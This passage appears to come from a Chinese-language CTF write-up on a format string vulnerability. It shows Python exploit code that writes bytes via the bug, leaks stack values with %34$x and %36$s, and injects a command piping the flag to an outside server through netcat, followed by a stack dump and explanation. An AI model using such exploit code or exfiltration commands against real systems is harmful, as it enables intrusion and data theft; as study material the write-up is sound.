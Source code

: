 ```

WS('\xf7',3)

WS('\x78',8)

WS('\x8d',9)

WS('\xb2',10)

WS('\xff',11)

print '# sending cmd'

cmd = 'cat flag | nc our.server 13387; '

for i in range(len(cmd)):

WS(cmd[i],i+12)

print 'return to: '+FA('%34$x')

print 'arg1 = '+FA('%36$s')

S('5')

raw_input()


```













下面来分析下格式化字符串漏洞的读写细节：

依然是针对上面的函数

int print_out(int fd, char *format, ...)

使用"bctf%p %p %p %p %p %p %p %p %p %p %p %p"作为格式化字符串参数调用该函数

当函数执行到这里时，堆栈情况如下：

0000| 0xbffff320 --> 0x4

0004| 0xbffff324 --> 0x804cab0 ("bctf%p %p %p %p %p %p %p %p %p %p %p %p")

0008| 0xbffff328 --> 0x804ca70

0012| 0xbffff32c --> 0xbf000a32
